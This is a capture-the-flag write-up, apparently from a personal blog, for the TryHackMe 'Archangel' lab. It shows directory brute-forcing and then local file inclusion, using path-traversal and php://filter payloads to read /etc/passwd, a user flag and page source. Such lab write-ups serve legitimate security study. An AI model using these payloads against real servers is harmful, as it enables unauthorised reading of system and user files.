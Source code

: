 ```yaml
---
title: "TryHackMe: Archangel"
author: cilgin
date: 2025-06-18 00:38:49 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: true
math: false
mermaid: false
image:
  path: /assets/img/2025-06-18-TryHackMe-Archangel/Archangel.png
---
```


# Enumeration

## Nmap Scan

I start with exporting the target machine IP adress as a enviroment variable:

```bash
export IP=10.10.58.58
```

And running `nmap` scan on the target:

```bash

```

## Enumerating The Website

First thing that I see is this:
![Desktop View](/assets/img/2025-06-18-TryHackMe-Archangel/photo1.png){: width="972" height="589" }

So we need to add this domain to the `/etc/hosts`{: .filepath}.

And If we curl the website:

```bash
curl http://mafialive.thm
<h1>UNDER DEVELOPMENT</h1>
thm{*************************}
```

We find the first flag.

## Fuzzing the path's

I run `gobuster`:

```bash
❯ gobuster dir -w common.txt -u http://$IP/ -x md,js,html,php,py,css,txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.58.58/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,py,css,txt,md,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/flags                (Status: 301) [Size: 310] [--> http://10.10.58.58/flags/]
/images               (Status: 301) [Size: 311] [--> http://10.10.58.58/images/]
/index.html           (Status: 200) [Size: 19188]
/index.html           (Status: 200) [Size: 19188]
/layout               (Status: 301) [Size: 311] [--> http://10.10.58.58/layout/]
/licence.txt          (Status: 200) [Size: 5014]
/pages                (Status: 301) [Size: 310] [--> http://10.10.58.58/pages/]
/server-status        (Status: 403) [Size: 276]
Progress: 37912 / 37912 (100.00%)
===============================================================
Finished
===============================================================
```

And there is `/flags` path we can use. I think I found the 2'nd flag:
![Desktop View](/assets/img/2025-06-18-TryHackMe-Archangel/photo2.png){: width="972" height="589" }

Of course I'm not. Site redirects me to rickroll.

![Desktop View](/assets/img/2025-06-18-TryHackMe-Archangel/photo3.png){: width="972" height="589" }

Time for enumerating <mafialive.thm>:

```bash
❯ gobuster dir -w common.txt -u http://mafialive.thm/ -x md,js,html,php,py,css,txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mafialive.thm/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              py,css,txt,md,js,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 59]
/index.html           (Status: 200) [Size: 59]
/robots.txt           (Status: 200) [Size: 34]
/robots.txt           (Status: 200) [Size: 34]
/server-status        (Status: 403) [Size: 278]
/test.php             (Status: 200) [Size: 286]
Progress: 37912 / 37912 (100.00%)
===============================================================
Finished
===============================================================
```

`/test.php` look promising.

```bash
❯ curl http://mafialive.thm/test.php
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
            </div>
</body>

</html>
```

```bash
❯ curl "http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php"
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        Control is an illusion    </div>
</body>
```

Look's like we can use this file to `cat` out some files.

```bash
❯ curl "http://mafialive.thm/test.php?view=/etc/passwd"
<!DOCTYPE HTML>
<html>
<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        Sorry, Thats not allowed    </div>
</body>
</html>
```

Look's like we can't. Or can we? We can use Local File Inclusion (LFI) technique.

```bash
❯ curl "http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//etc/passwd"

<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
    </div>
</body>

</html>
```

And we can try to read the flag:

```bash
❯ curl "http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//home/archangel/user.txt"

<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        thm{lf1_t0_rc3_1s_tr1cky}
    </div>
</body>

</html>
```

We can also try to read the vulnerable files codes:

```bash
❯ curl "http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php"

<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==    </div>
</body>

</html>
```

```bash
❯ echo -e "PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==" | base64 -d
<?php echo 'Control is an illusion'; ?>
```

This looks normal. Let's try `/test.php`
